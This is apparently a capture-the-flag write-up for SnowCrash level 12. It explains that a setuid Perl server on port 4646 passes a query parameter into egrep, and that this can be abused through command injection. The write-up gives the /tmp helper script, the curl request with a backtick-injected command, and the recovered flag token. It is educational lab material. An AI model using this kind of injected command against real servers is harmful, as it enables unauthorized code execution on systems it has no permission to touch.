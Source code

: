 # Level 12

## Analysis

We found perl script in his home

```bash
level12@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

We understood from script that one server is listening on port 4646 and taking 2 arguments from url query params. When it recieve request, the server perform `egrep` search with one of url query param. `egrep` is vulnerable from input sended by unknown client. We perform an script injection with url query param that will execute local script on server.

```bash
cat << EOF > /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
EOF
chmod +x /tmp/GETFLAG
```

Then call server hosted with the injection:
```bash
curl 'http://localhost:4646/?x=`/*/getflag`'
cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

